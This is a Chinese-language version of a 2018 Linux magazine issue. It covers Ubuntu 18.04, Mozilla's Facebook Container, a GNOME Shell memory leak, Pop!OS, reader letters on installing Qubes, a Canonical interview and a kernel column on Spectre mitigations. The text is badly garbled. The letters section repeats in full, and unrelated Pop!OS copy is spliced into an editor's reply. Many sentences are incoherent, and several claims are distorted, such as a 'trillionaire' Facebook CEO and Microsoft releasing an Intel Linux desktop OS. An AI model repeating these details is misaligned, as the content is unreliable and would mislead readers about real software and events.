# Linux User & Developer 191 - 控制容器 191

## 独家专访

### 与开发者

你的终极指南

> “我们将尽一切努力生存 ”

- 创始人，松本裕弘 (Yukihiro "Matz")

面对工作、家庭和生活的重重需求，一天的时间似乎永远不够用。为什么不要偶尔按下暂停，蜷缩在最喜欢的杂志旁，在你的一天中营造出一片属于“你自己”的小绿洲呢？

按下暂停

享受杂志时光

了解更多关于“按下暂停”的信息，请访问：

`pauseyourday.co.uk`

设计师 Ian Webber

制作编辑 Ed Richards

总编辑 Tom Graham Barrow

高级编辑 Jo Collier

### 贡献者

Dan Anthony, Joey Beard, Christian Canley, John Owens,

Toni Castillo, Gloria Jones, Moss Bliss, Patrick O'Brien,

Mark Philbrick, Steven Sutton, Tim Martin, 以及 Steve Smith

广告代理 Andrew Treeby

广告客户 Adrian Crisp

订阅主管 Jo Collier

LinuxUser & Developer 是一本面向 Linux 爱好者的杂志。业务合作请联系我们的营销部门。

国际许可总监 Adrian Crisp

### 发行

发行主管 Tim Mather

### 制作

美、英国内容战略负责人

制作项目经理 Sarah Scott

平面设计师 Richard Collins

数字内容经理 Jan Hudson

### 管理

编辑 Aaron Aasid

编辑总监 Paul Newman

艺术与设计总监 Roger Cherry

设计主管 Chris Oldham

### 营销

# 欢迎阅读 Linux User & Developer 第 191 期

## 本期内容

欢迎阅读北美最喜爱的 Linux 来源地。开源世界又过去了一个月。当然，Ubuntu 18.04 LTS 发布了，我们也看到了开源领域的新功能，旨在为德国政府提供基于 Debian 的 Ubuntu，以支持 30 万公民的服务。微软通过揭晓基于 Intel Linux 的桌面操作系统让很多人大吃眼镜。Linux 基金会将微软的 Linux 描述为“新”的——不应被忽视。许多公司现在在盈利且具有实际意义时使用 Linux 和 FOSS（自由开源软件）。随后，我们将展示如何使用来自 Ansible、Docker、Puppet 和 Vault 的开源连接器和系统来帮助恢复系统。我们介绍了这次 Ubuntu 18.04 的变化（第 18 页），不仅限于桌面、云端、容器等领域。

Chris Thornnett，编辑

| 新信件奖 |
| :--- |
| 最佳获胜者是我们的 datashur Pro！ |
| linuxuser@future.com |
| Twitter: @linuxuser |
| Facebook: facebook.com/LinuxUserUK |

详情请参阅第 11 页

获取最佳订阅优惠，请访问此处：

`myfutureusers.co.uk`

今年订阅最高可节省 20%！

连接器

创作者

专专栏作家

首席执行官 Ethan Smyth-Type

首席财务官 Leslie-Leiden

电话 +44 01502 4224

3

facebook.com/LinuxUserUK

Twitter: @linuxuser

# 特别报告

Ubuntu 18.04 bionic 带来了带来了变化，从桌面到云端、容器、物联网、服务器。18.04 代表了长期支持。

# 实用 Pi

电子技术人员 Fred Frie 想用廉价组件制造一个水下相机。他巧妙的解决方案 PipeCamp 涉及到 Raspberry Pi 以及大量的防水密封剂。

# 测评

我们测试了四种承诺增强安全的特殊发行版，看看哪种最安全。

来自科幻小说作者的另一篇引人入胜的故事

TerraMaster F-420 NAS 和 Trendnet TEW-817DR 路由器性能如何？

--你可能不知道，新的 Pi 可以轻松从连接的驱动器而非 SD 卡启动。了解如何设置。

antik MEPIS 社区的合作成果，带来了整洁流畅的桌面体验。

使用运行在 Pi 上的 Mycroft 创建你自己的 Alexa/Google Home/Siri/Cortana 替代品——并确保所有数据留在你的控制范围内！

Searchmonkey JAVA 3.2.0，beats 1.4 CLI 媒体库，Garbas 3.11.0 用于创建图形应用，以及 SimpleRecorder0.3.10。

立即订阅，订阅最高可节省 20%！更多信息请参阅第 30 页。

# 开源

## 安全

### Facebook 调查并对信任危机表示道歉

Mozilla 提供解决方案：Facebook 容器（Facebook Container）可保护浏览活动和数据追踪

引人注目的剑桥分析公司丑闻影响了所有平台的用户，再次凸显了社交网络等在线服务在处理个人数据时，开放性的重要性。考虑到有 270,000 人使用了“thisuisdigitall”应用，令人震惊的是，数百万（包括该应用的用户的朋友家人）的数据随后被采集，并用于从 2014 年开始的政治竞选目标投放。


马克·扎克伯格在尽力让 Facebook 与丑闻保持距离的同时，还花时间在几份报纸上发表了正式道歉。文中，这位万亿富翁 CEO 对 2014 年的信任危机表示道歉，这次危机“泄露了数百万人的 Facebook 数据”，并透露除了限制向第三方提供数据外，Facebook 正在调查在我们发现此问题之前访问过大量数据的每一个应用，其依据是其他应用可能也拥有类似规模的数据。

尽管表达了歉，但 Facebook 承诺通过移动端应用中的新功能在隐私方面做得更好；但事实是，数据是在没有真正违反安全性的、或至少没有获得明确同意的情况下获取的。相反，CBS 的尼克·尼尔森（Nick Nicholson）表示：“Facebook 构建了历史上最疯狂、最侵入性的广告模型，有些人正利用了这一点来获利。”

从那以后，事情已经发生了；Facebook 的品牌已经因为之前的丑闻和疑虑而受损。然而，该平台似乎不太会被遗弃，这为用户提供了至少部分挽回的机会。

在剑桥分析公司丑闻之后，针对有隐私疑虑的用户——Mozilla 推出了一项新的浏览器扩展，以解决 Facebook 追踪问题。两个月前——尽管该开发最近为了快速发布而了加速——Facebook 容器为那个最烦人的问题提供了解决方案：“我如何在不真正退出的情况下退出 Facebook？”

Mozilla 迅速提醒用户，追踪是一个问题——你在网上访问的页面可以关于你的很多信息（你住在哪里、你的爱好和你的政治倾向），而且 Facebook 在许多网站上都有追踪器网络。“这个 Mozilla”会追踪你在其他在线活动中的行为。

Mozilla 认为，通过使用 Facebook 容器扩展，剑桥分析公司事件是可以避免的，该工具至少限制了他们共享的数据。（而且考虑到情况，毫不留情地）Mozilla 不从扩展程序中收集任何信息；它只记录扩展程序何时被安装或移除。


上方，是时候通过 Mozilla 的 Facebook 容器活动来控制 Facebook 数据隐私了


### 发行版动态

#### 前 10 名

（每日平均访问量，截至 2018 年 4 月 4 日的前 30 天）

| 发行版 | 访问量 |
| :--- | :--- |
| 1. Manjaro | 3248 |
| 2. Mint | 2806 |
| 3. Ubuntu | 1887 |
| 4. Debian | 1526 |
| 5. elementary | 1325 |
| 6. Solus | 1290 |
| 7. MX Linux | 1225 |
| 8. Fedora | 968 |
| 9. Zorin | 862 |
| 10. Antheros | 783 |

## 软件

### Ubuntu 中发现 GNOME Shell 内存泄漏

如果不尽快修复，Ubuntu 18.04 可能会带有一个恼人的 bug

内存泄漏在过去最著名的影响对象是浏览器，因此让桌面环境也受到这种耗内存 bug 的影响是代价昂的。但在 Ubuntu 17.10 中发现的 GNOME Shell（已被许多用户看到）也是一个 bug。该 bug 似乎是由执行与动画相关的操作触发的，例如在窗口上移动或切换窗口，这可能会导致系统恢复到在使用几小时后就会停止的状态；特别是如果你在使用笔记本电脑时；如果增加的负载将你的电池电量从 100M 消耗到 350M，你不能仅仅通过重启来摆脱麻烦。即使你关闭所有窗口，它也不会释放内存。在我的 4GB 缓存中，这意味着我要么每天重启，就是通过启动修复来彻底解决此问题。

随后的调查证明该问题确实存在，开发者将其驳回为“我怀疑我们在某个地方泄露了最终缓冲区”。他追踪了该问题，注意到垃圾回收（Garbage Collector）出现了“某些情况”。恢复后，发现垃圾回收工作正常。在尝试更新该问题时，Stravacas 报告说在放弃之后，“我发现了一个可以减少的非常有趣的 bug”。

一个用户可以一分钟一分钟地增加内存使用量。launch.net 用户 Jesus:225 阐明了这个问题：“无论你做什么，gnome-shell 都会缓慢地消耗内存……” 在使用一天（仅浏览网页）后/gnome-shell 增加的 RAM 增加了。

### 本月

- 开发中 (4)

- 稳定版发布

BSD 操作系统最近引起了复兴，基于 FreeBSD 的支持在顶部的两个选项中都有。

### 亮点


> TrueOS

TrueOS 以易用性为荣，具有预配置的桌面环境。

> OpenBSD

专注于安全，OpenBSD 6.3 提供了对 ARM64 的支持。

> NetBSD

这种流行的 BSD 分发版运行在广泛的硬件平台上。


### 最新发行版：


## 游戏

### Steam Machines 还有？Valve 宣布变革

曾被认为是游戏未来的 Steam Machines——Alienware、华硕等——在很大程度上无人问。无论如何，Valve 不再推广此类主机式 PC。在 Steam 网站发布公告后，Steam Machines 仍然可用，且 Steam 页面仍然在线，并非如此

> 诚然 Steam Machines 确实并不畅销，对于显卡


虽然 Steam Machines 尚未死亡，但它们处于生命维持阶段。在 4 月 4 日的一篇博客中，Valve 的 Pierre-Louis Griffiths 声称 Steam 的策略已经发生了变化。“虽然它们确实并不畅销……但我们仍在努力让 Linux 系统成为开发者的理想之地。我们认为这最终会让用户受益，包括那些不使用 Steam 的。”

## 硬件

### Intel 停止显卡更新

许多新发行版已不再需要它

随着 Linux 发行版的开发和改进，第三方工具和软件过时并不罕见。Intel Update Tool 就是一个很好的例子。它于 2013 年发布，为用户提供了 Intel 硬件上安装和升级稳定驱动程序和固件的方法，多年后该软件已变得多余。

Intel 博客在 3 月 8 日宣布，“用户将注意到 Fedora 27 和 Ubuntu 17.04 已经不再最新，因此，我们将停止提供 2.0.6 版本的 Update Tool。最后的 2.0.6 版本更新工具专门针对 Ubuntu 17.04 和 Fedora 26。不再支持其他发行版的进一步更新。”

# 发行版升级

## Pop!OS：为用户追求高效且创意的环境

自从宣布名为 Pop!OS 的自己的 Linux 发行版以来，System76 一直稳健地向 18.04 版本发布。

在 Pop!OS 之前，我们的重点是确保电脑硬件在 Linux 下保持完美无缺。当 Unity 的不确定性很快变成一个机会时，在过去的 12 多年里，我们必须处理团队的需求；当我们开始向最重要的客户介绍我们以及桌面体验时，在此期间，我们收集了数据：一份改进桌面界面的客户请求列表。

### 新安装程序体验

新的安装程序的设计理念是通过安装过程展示艺术作品的故事，并安装操作系统。该安装程序使我们能够提供带有全盘加密的计算机；简化安装过程；快速安装；并部署了将个性化你的操作系统的艺术作品，正如新的 Pop!OS 艺术设计所示。

> Carl Michel

> Carl 是 System76 的创始人兼首席执行官，一家 Linux 电脑制造商。

### USB 刻录

Popsicle 是一项新工具，当你在文件管理器中双击 ISO 文件时它会启动。它是一个 USB 启动创建器，可以同时刻录一个或数百个 USB 驱动器。

工程与 DevOps - 这是我们的客户使用它的地方。对我们来说，确保创建一个最高生产率的环境以保持高效和创意至关重要。在第一个 Pop!OS 发布后，我们解决了与 Linux 客户面临的主要痛点：桌面设置更易用、软件更多、且体验极快。

> 我们最感激的事情之一是拥有如此活跃的 Pop!OS 社区提供反馈。

此外，Pop!OS 为非技术人员提供无缝体验也至关重要。这意味着 Pop!OS 比我们习惯的体验更快、更稳定。如果 Pop!OS 能够在机器窗口中平稳运行，我们在无障碍访问方面就赢了，使我们能够创建一个具有强大界面的项目。

其他新功能还包括带有固定设置的“请打扰”开关、针对缺失显示或遗留应用程序的 HID API 和标准 DPI 缩放（在 Pop!OS 中使用新艺术设计构建的界面），以及内核和 systemd-kernelstub 取代了新安装中的 GRUB。

这是我们的第二次发布版本 18.04，我们在此取得了取得了巨大的进展。有什么不同之处？

18.04 是保持与 Pop!OS 社区包容与协作的结果。拥有新 Linux 界面上的安装程序，当然，还有我们在开发项目期间发生的大量工作。需要大量的测试以确保 Pop!OS 准备就绪。

### 增强的安全性

Pop!OS 默认确保你的安装安全。我们的新安装程序为来自 System76 或其他操作系统的预安装启用全盘加密。System76 允许你接收提供自动固件更新的功能，确保 PC 始终安全可靠。

### 性能管理

18.04 包含改进的电池电量指示，使用户可以掌握剩余电量。我们还添加了 CPU 和 GPU 切换开关，从系统中切换电源方案，例如 NVIDIA Optimus、节能模式、高性能模式等。

我们最感激的事情之一是拥有一个活跃的 Pop!OS 社区，他们在提供反馈方面充满活力。我们希望继续改进该操作系统，作为一个帮助增强我们工作流的工具，并始终感到倍受欢迎。请在 `https://system76.com/pop` 尝试 Pop，并在 `www.reddit.com/r/pop_os` 告诉我们你的需求。

# 你的 Linux 新闻与观点来源

## 评论

### 你的来信

关于杂志、Linux 和开源的问题与意见

#### Qubes 技巧

亲爱的 L&D，我很喜欢 LUBD189（特性页，第 60 页）中的 Qubes OS 教程，我想和你们分享三个让新手望而却步的小故障。首先，安装程序似乎提议你覆盖之前的操作系统（在我的情况下是 Windows 10），转而将安装挤入某些空空间中。这意味着我必须创建一个活动 USB (Mint) 仅为了使用它的磁盘程序来删除分区。其他读者可能会从这条建议中获益。

在越过那个障碍后，我感到一些新手对安装过程感到困扰，显然它在计算字节数，然后在安装模板等文件时看起来“仍然”处于卡住状态。解决方法是不要紧盯着看，只要你让它运行二十分或三十分钟，文件数量就会再次增加。

重启后，我必须选择模板选项，这些模板需要一段时间时间来安装，进度条在过程中会移动。在使用 Qubes 并决定使用它之后，我注意到新版本即将到来。我想重新安装一次 Qubes 4.0 并下载了它。

这个版本在安装阶段有类似的不均匀进度条，在重启后第二个进度条呈现出左右移动的动作。让电脑离开一小时左右，它恢复得比那个略微不均匀的安装要可靠得多。

再次强调，不要恐慌！不要因为过程看起来“挂起”了就假设如此。在再次放弃之前去喝杯咖啡或吃顿饭吧！

总之，感谢教程，我希望我的评论能鼓励其他人去追求结果良好的设置，并让他们放心，一旦默认配置比略微不均匀的安装要可靠得多。

River AT

Chris：非常好的建议，我从未遇到过你提到的无法安装 Windows 操作系统的问题。在 Qubes 3.2.3 安装摘要中，使用 System 选项可以使用自定义选择。在下一个屏幕上，我能够配置现有分区并使用分区 GUI 创建 Qubes OS 所需的分区（就像在 GParted 中做的那样）。然而，这可能是。我们最感激的事情之一是拥有一个活跃的 Pop!OS 社区，他们在提供反馈方面充满活力。我们希望继续改进该操作系统，作为一个帮助增强我们工作流的工具，并始终感到倍受欢迎。请在 `https://system76.com/pop` 尝试 Pop，并在 `www.reddit.com/r/pop_os` 告诉我们你的需求。

# 你的 Linux 新闻与观点来源

## 评论

### 你的来信

关于杂志、Linux 和开源的问题与意见

### Qubes 技巧


亲爱的 L&D，我很喜欢 LUBD189（特性页，第 60 页）中的 Qubes OS 教程，我想和你们分享三个让新手望而却步的小故障。首先，安装程序似乎提议你覆盖之前的操作系统（在我的情况下是 Windows 10），转而将安装挤入某些空空间中。这意味着我必须创建一个活动 USB (Mint) 仅为了使用它的磁盘程序来删除分区。其他读者可能会从这条建议中获益。

在越过那个障碍后，我感到一些新手对安装过程感到困扰，显然它在计算字节数，然后在安装模板等文件时看起来“仍然”处于卡住状态。解决方法是不要紧盯着看，只要你让它运行二十分或三十分钟，文件数量就会再次增加。

重启后，我必须选择模板选项，这些模板需要一段时间时间来安装，进度条在过程中会移动。在使用 Qubes 并决定使用它之后，我注意到新版本即将到来。我想重新安装一次 Qubes 4.0 并下载了它。

这个版本在安装阶段有类似的不均匀进度条，在重启后第二个进度条呈现出左右移动的动作。让电脑离开一小时左右，它恢复得比那个略微不均匀的安装要可靠得多。

再次强调，不要恐慌！不要因为过程看起来“挂起”了就假设如此。在再次放弃之前去喝杯咖啡或吃顿饭吧！

总之，感谢教程，我希望我的评论能鼓励其他人去追求结果良好的设置，并让他们放心，一旦默认配置比略微不均匀的安装要可靠得多。

River AT

Chris：非常好的建议，我从未遇到过你提到的无法安装 Windows 操作系统的问题。在 Qubes 3.2.3 安装摘要中，使用 System 选项可以使用自定义选择。在下一个屏幕上，我能够配置现有分区并使用分区 GUI 创建 Qubes OS 所需的分区（就像在 GParted 中做的那样）。然而，这可能是。我们最感激的事情之一是拥有一个活跃的 Pop!OS 社区，他们在提供反馈方面充满活力。我们希望继续改进该操作系统，作为一个帮助增强我们工作流的工具，并始终感到倍受欢迎。请在 `https://system76.com/pop` 尝试 Pop，并在 `www.reddit.com/r/pop_os` 告诉我们你的需求。

# Ubuntu 18.04：沙箱、调查与 GNOME shell

随着 Canonical 继续追求盈利，我们访谈了该公司的桌面和服务器团队，讨论了他们对 18.04 版本的野心以及未来的计划。

Bionic Beaver 的发布非常重要。它不仅是一个 LTS（长期支持）版本——首次为 Ubuntu 提供五年的支持，且 GNOME 稳固地占据了桌面环境的位置——它还是 Canonical 在其 IPO 期间发布的版本。我们在 4 月初与团队讨论了 Ubuntu 18.04 LTS 的总体目标。

即将到来：具体来说，我们发现大多数用户喜欢安装一次后就置之不理，并知道它之后会保持锁定状态。这在云环境中比在桌面端更为重要。也许 Ubuntu 的乐趣在于，你可以在自己的机器上完成所有（你的）开发，然后部署到云端，运行相同版本的 Ubuntu，并放心地知道安装的软件包与你的企业级安装完全相同。

当你云端部署了成千上万台机器时，最不想的就是每年进行维护、升级，并处理所有这些开销。因此，我们对 Ubuntu 18.04 的策略是：在本地开发并部署到你的服务器——公共云，或者任何你想做的地方——服务器。我们的边缘设备也是如此。

自 PBB68 以来，我们在 Ubuntu Core 上取得了许多进展，PBB68 是一个非常小且精简的 Ubuntu 版本，仅带有提供设备或服务所需的最小内容。如果你想部署到服务器、桌面、边缘设备、IoT 设备以及网络交换机，Snap 为你提供了一种可靠的方法，让你正在开发的所有软件都可以打包并推送到那些其他设备，并且它的运行方式将与在桌面上的运行一致。

我们策略中的一个关键角色是我们一直在开发的 snap 包。这些是自包含的二进制文件，它们不仅可以在 Ubuntu 上运行，也可以在 Fedora、CentOS 或 Arch 上运行。

作为应用程序开发者，桌面应用并不是必须的，但它可以是一个 snap。你可以将所有依赖项封装到一个自包含的包中，然后将其推送到你的设备上。你希望它能够运行，无论它们是什么设备，而不仅仅是在 Ubuntu 上。这就是为什么我们想要 snap 开发者：在 Ubuntu 上进行你的工作；将其打包，并将其推送到任何运行 Linux 的设备上，你可以依靠这项工作持续进行多年。

开发者在将 DEBs 和 RPMs 链接到 snaps 格式时面临的共同问题是什么？

**Will Cooke**

Will 是 Canonical 的桌面总监，负责整个桌面 Ubuntu ISO。

**David Britton**

David 是 Canonical Ubuntu 服务器的工程经理。

> 右上角：你可以通过 `snap install community` 早期安装 snap 来加入 Communityeth，或者针对 18.10 版本。只需注销并从……选择它。

WC：有几个。打包 DEBs——或者说 RPMs——有点像是一门黑艺术。有一个……

# 快速指南

## 18.04 之后：GNOME Shell 4

显示服务器协议 Wayland 尚未稳定到可以作为 Ubuntu 18.04 LTS 的默认设置，但它绝对会到来，并将从正在开发的技术中受益。除了 PipeWire（用于改进 Linux 下的视频和音频），还有 GNOME Shell 4 的架构。然而，它们还没有准备好，正如某些人所说，“GNOME Shell 4 是一个奇怪的话题，GNOME 告诉他们将推出 GNOME 4——你知道的，所有库的新版本之类的。但他们并没有真正承诺要开发一个新的 shell 或改变它的工作方式。”

GNOME 4 的原因之一是为了显著改变用户面对显示服务器崩溃时的体验。例如，如果你在编辑 LibreOffice 文档时显示服务器崩溃了，它可能不会自动保存，你将丢失所有内容：“目前，GNOME 堆栈中的合成器在 Wayland 中崩溃时，它会崩溃 Wayland 并退出你的会话。你会被退回到登录界面，你运行的所有应用程序都会让你回到只切换了机器的初始位置。”

GNOME 4 的考虑因素之一是让崩溃在未来表现得像 X.Org 一样：“应用程序将在后台继续运行，你甚至可能察觉不到问题。”

> 上方：你可以通过 `snap install community` 早期安装 snap 来加入 Communityeth，或者针对 18.10 版本。只需注销并从……选择它。

再次，事实是，带有依赖项的构建更加简单。理解如何将某内容打包为 DEB 或 RPM 的门槛很高，因此 snaps 简化了这很多工作。如果你打包你的应用程序并说，“好的，我依赖这个版本的库，”那么当你的底层操作系统发生变化时，你的包就会损坏。你无法担心它是哪个版本，或者底层运行的是哪个版本的 OS。通过在 snap 中构建这一切，你确保了所有的依赖项都与你的应用程序一起共享。得到结果更容易，并且能够正常运行，物理上能够从磁盘读取文件。

> 你可以在自己的机器上完成所有开发，然后将其部署到云端

在我看来，另一个关键点是安全性。对于 X.Org，安全性是一个很长久的问题。现在它是为了安全而设计的。如果某个东西以 root 用户身份运行，它就拥有所有权限。如果你安装一个应用程序，例如，你可以进入主目录，创建一个副本并将其放在其他地方。它将以用户的权限运行。而 snaps 的一个问题是，你可以说，“这个应用程序被允许访问这些内容。”

最后，它将是你想要使用的应用程序。我们正在为那些想要使用它的人服务。例如，如果是某种方式——我们只是让人们更容易获取它。从用户友好性的角度来看，与任何事情都一样，考虑到你需要的工具，有许多 IDE。如果你停止使用 Linux，你可以像桌面那样，显示你需要做多少工作，然后让我们解决这些情况并让它更美观。

好奇 Ubuntu 社区 (Comm) 的进展如何？

它进展顺利。是的 它对于 18.04 来说还不够。但有一些需要修复的 bug，针对 GTK+ 2。

# 开源 Linux 动态

从质量上来说，Wayland 将比 X.Org 好得多。如果我们打算在 18.04 使用 Wayland 并支持它五年，我们必须确保它符合我们的需求，但这种情况允许我们切换到 X.Org。我们从用户那里获得的反馈是，如果我们切换到 17.10，就会看到 Wayland 驱动程序中的某些 bug。有一个关键问题，现在还不允许，但那里还没有。

有一些技术可能正在开发关于 Wayland；例如 PipeWire (`https://pipewire.org/`) 你可以告诉我们更多关于？

GTK+3，我会说，现在更漂亮了，GTK+2 只有几个，但它看起来非常专业。所以我们将转向 18.10。在此期间，我们正致力于为 18.04 将其打包，然后我们可以启动一个新的系统，它将给你提供那个主题，并且每晚刷新一次。在下一个周期中，你将默认看到它，这很令人兴奋。

从 Wayland 切换到 XOrg 的——可以解释这样做的原因？

WC：我们正在处理 17.10 的 GNOME Shell。我们正在了解到 Wayland 涉及到某些魔法。

> 上方提示：使用 Canonical 的企业级托管 Ubuntu Advantage 套件来激活所有三台机器。它具有 Livepatch 功能，无需为你的内核安装，因此你可以更新任何许多 CVE。

WC：PipeWire 的构建就像是视频版的 PulseAudio。这非常不同。主要的区别在于，在这种情况下，不像 PulseAudio，它没有可扩展的基础设施。我认为 PipeWire 内核被设计为可以同时处理音频。

其他应用程序，并处理和流了所有其他类型的内容；使得这些应用程序能够支持 API，并且在完成并稳定之前一直运行。因此，PipeWire 的开发仍然处于早期阶段，它可能会在 19.04 中出现。然后希望浏览器等能够关注到它，通过它们的优势将其整合并支持，然后它就能处于一个良好的状态了。

### NVIDIA 某些 Wayland 合成器需要的一部分 API，以达到 LTS 预期的稳定性水平

WC: 不，我对此非常确定。API 发生了一些变化，意味着出现了一些处理问题，一些已知的漏洞正在被修复。然后我们会发现这些问题并且它们会被修复，这毫无疑问。

### 所以毫无疑问，NVIDIA 对 Wayland 不感兴趣也不想加入

WC: 嗯，我们完全可以说明这一点，通过他们的深度学习 AI 物，我们与 NVIDIA 保持着非常好的关系。情况是 NVIDIA 表示一切都是构建在 Ubuntu 之上的。所以我们和那些家伙一如既往地有着良好的关系。我们定期就相关问题进行通话——问题不是主要问题，处理可能是一个问题，但图形方面正与那些显卡供应商定期讨论，因此我们处于一个有利的位置，能够修复那些漏洞，而且他们确实在意。他们绝对在乎。

### 你用过 Zstandard 压缩。进展如何？

DAVID BRITON: 我们确实在使用它，它是 Zstandard 压缩的最新版本。回到内核也是很棒的。API 压缩前端已经在 Ubuntu 中推出，作为 Gzip 和 XZ 压缩以及我们正在查看的其他内容的替代方案，目前我们可能在 18.10 或 19.04 时间段将其设置为默认值，用于 APT 压缩。我们不会在 18.04 中这样做，因为现在进行这种改变还太早了。它看起来很有前景，但等我们有了相关数据，看起来可能是在 18.10 的时候。

### 与桌面端一样，你也将其运行在服务器端。你从他们那里得到了什么反馈？

DB: Ubuntu Minimal 是我们的一项反馈请求的产物。

Ubuntu 18.04 的某些功能源于 GNOME 3.28 对 GNOME boxes 的改进，这使得启动新的虚拟机非常简单，但选项有限。我们从社区收到的反馈是，旧的安装程序既笨拙又缓慢。因此，在过去的几个周期中，我们花费时间根据这些反馈制作了一个新的安装程序。服务器使用 Ubiquity 安装，这个新安装程序叫做 Ubiquity。这是一个新的基于镜像的安装程序，也比旧安装程序快得多。

缺点是 Ubiquity 在配置网络时也会失败，现在当你想要配置磁盘并安装时。只需在程序中一路按“回车”，只需要几分钟就能完成，你就搞定了。

回到我们收到的其他问题……其中之一是网络工作不正常，因为它也不同。它被称为 netplan/network-interfaces 或 EN。对于它，这是一个跨越不同代网络形式的遗留系统。在现代世界，配置网络有两种方式。一种是用于桌面和笔记本的 NetworkManager。另一种是 system network，这是一个用于配置网络的系统模块，我们正将其恢复到服务器环境。

由于有两种不同的配置方式，它们在 Ubiquity 中都有各自的问题。Ubuntu 在 18.04 发布了名为 netplan.io 的工具，这是一个配置生成器。你只需要以非常简单的 YAML 格式输入你希望网络看起来的样式。它可以简单到只有行。我们尝试了，它会根据你使用的是 Netplan 还是 system-network 返回正确的后端数据。它简化了你查看网络的方式。

有一件事，虽然很小，但人们在渴求：任何现在 Ubuntu Server 可用并受 Canonical 支持的地方。对于请求此已的系统管理员来说，这是一件大事。我最后想指出的是 LXD 3.0，这是 Canonical 支持的容器解决方案。

> Ubuntu-Minimal 是我们的一项反馈请求的产物

# 开源

# 你的 Linux 新闻与观点来源

# 观点

## 内核专栏

Jon Masters 注意 Linux 内核社区的最新动态：Linux 4.17-rc1 发布，4.18 开发持续进行

**Jon Masters** 是一位已经在 Linux 领域工作了 22 年以上的内核黑客，他在 13 岁时进入剑桥大学，Masters 现在为一家大型企业供应商工作。他正在推动能效 ARM 驱动服务器标准的制定。

Lin Torvalds 已宣布 Linux 4.16，并注意到事情至少稳定到了最低程度，避免了进入 RC（发布版本 8）。

这些自第一个发布以来一直未解决的问题并不特别显著，网络维护者已明确表示他可以接受。Linux 4.16 包含了许多功能，例如 AMD 的安全加密虚拟化 (SEV)，以及针对跨架构的 Meltdown 和 Spectre 安全漏洞的许多新增。

这在 4.17-rc1 中最终形成了一个发布版本 1 (RC1) 内核。最新的内核再次侧重于接收侧的 TLS 支持（内核现在有了内核 TLS 支持，作为额外的 GSO 数据包过滤器，并对未使用的测试对现有文件系统进行了健壮性增强）。

另一方面，4.17 带有一个警告：它缺乏对恶意攻击者可能创建的 x64 文件的支持，这应该被视为安全风险，对于过去几年的所有 Linux 内核都是如此，由于一个现在不可选的功能（汇编 gadget）。

Linux 4.17 引入了针对 Spectre 变体 1（边界检查绕过）的缓解措施。这些措施依赖于漏洞代码序列来测试用户空间提供的地址是否在许可范围内。

处理这些数据时，除非在所需的范围内，否则没有问题，但许多处理器随后会执行超出被告知停止的检查范围。这是通过识别存在漏洞的内核代码（使用扫描器）以及各种新宏（如 `array_index_mask`）来实现的。这些防止了漏洞的执行。

也许 4.17 中最重要的开发是，针对 Linux 在八种不同架构上对漏洞变体 2 的某些支持。虽然 Linux 以缓解和响应为傲，但它在支持长期软件和硬件漏洞方面一直很弱。

在架构层面上，使用 KPTI（内核页表隔离）的缓解措施在 4.16 中合并，支持 Spectre 变体 2（分支预测器推测）的分预测器隔离（通过 ARM Trust Firmware），s390（大型机）获得了类似的 Spectre 变体 2 支持，尽管是“可选”的。


这是 4.17 合并架构的情况。在移除大型机 `crif`, `f3x`, `m32`, `mn1030` 和 `score` 的缓解措施后，Benjamin 引起了大量关注。很多人甚至听说过其中一两个。

虽然 x86 实现了“retpolines”（返回跳转），它们不会受到间接分支调的影响，但 s390 使此类间接调用看起来是通过新内核功能暴露的执行类型跳转。

## 侧重安全

随着 4.16 的发布开启了 4.17 内核窗口。这是一个时间段，通常为两周，期间 Linux 可能会出现具有破坏性的更改，并为内核功能添加新特性。

正如这一点所言，它们使用的漏洞极其不同，但受到相同事物的保护。有一公司收取了 SoC 线、CPU 微架构和软件生态系统的费用，这比从第三方许可现成的或 SoC 核心（如 ARM、MIPS 或 RISC-V）要贵得多。事实是所有的 SoC 线仍然存在，但没有使用

到目前为止，几种 CPU 架构已经持续了多年。换句话说，这些公司依然存在，但它们目前都在使用通用核心。

顺便提一下，最近发现对（要老得多的）IBM POWER4 的支持被意外破坏了任务。事实上，从那以后就没有人对此抱怨过了，该支持也已从上游中移除。当然，POWER 仍然是一个受欢迎的替代架构，对所有最新的 POWER 和 POWER 硬件都有最好的支持。有时，维护良好的架构可以从旧代码的少量大扫除中获益。

### 模糊测试（Fuzzing）、RISC-V 及更多

Sybot 是一个“基于 syzkaller 模糊器的持续模糊测试报告系统”。它向 Linux 内核邮件列表发送电子邮件，其中包含代码在模糊测试时崩溃的日志——即通过喂入数据生成的仪表板。Dmitry Vyukov（Google）在 `https://syzkaller.appspot.com/` 上宣布开发者可以在那里查看所有待处理的错误。在 Linux 的后续跟中，Dmitry 获取了关于改进该工具的反馈，并迅速将其实现。

fear - 另一个内核发布周期就在这些补丁的眼前了。

Laurent Dufour 发布了他的“推测页错误（Speculative page faults）”第 9 版本。我们之前提到过它们——不仅仅是我们看到的“推测”术语。基本思想是处理使用页错误，当应用程序访问未分配的内存时，该内存仍在磁盘上进行分页或交换，或者应用程序数据尚未加载。

该补丁匹配了内存未触碰与其他线程共享的内存区域的问题。如果触碰了，则结果将使用锁重试。

### 可能是 4.17 最有趣的进展是增加了对八种架构的支持

> Alexander Duck 添加了“对...的后续支持”

RISC-V 架构继续获得势头。最新的版本解决了为 64 位内核构建模块时出现的问题。这些模块内部调用的函数地址在内核中是融合（跳转）的，这些跳转必须在模块上进行重定位（修复）。RISC-V 内核支持看到处理这些问题需要某些关系类型。我们将在随后的问题中修复此，包括对运行 Fedora 的 Sifive Unleashed 开发进行审查。

Matthew Rybakov 发布了他针对旧代码的内核竞态补丁的第 2 版本。他曾希望看到它合并到 4.17，但在其他方面，他在这个游戏中玩了足够久，知道这机会渺茫。Andrew Morton 表示其中一个补丁可以进来，而另一些补丁他失去了勇气——没有提交。

Alexander Duck 添加了“对 SR-IOV 的后续支持”，这增加了 Linux 中 SR-IOV（单根 I/O 虚拟化）解决方案的复杂性。SR-IOV 允许 PCIe 设备的虚拟函数直接附加到虚拟机，然后可以将这些功能作为独立设备使用。


# 掌控容器

## 容器控制

Bobby Moss 探索了容器和脚本如何节省你的时间、帮助恢复系统并让部署变得更容易。在很久远的过去，Marc Andreessen 在他为《华尔街日报》写的一篇经常被引用的文章中提出了“软件正在吞噬世界”这一短语。在2011 年，他预见到虚拟化和丰富的硬件资源将允许自动化系统，从而改变全球每个行业的工作方式。现在，在2018 年；几乎每家公司都需要成为软件公司才能在市场中有效竞争。自动化可以为我们解决许多问题。例如，影响整个网络网络管理员的常见问题是它们上运行着不同的配置和不同版本的软件包。

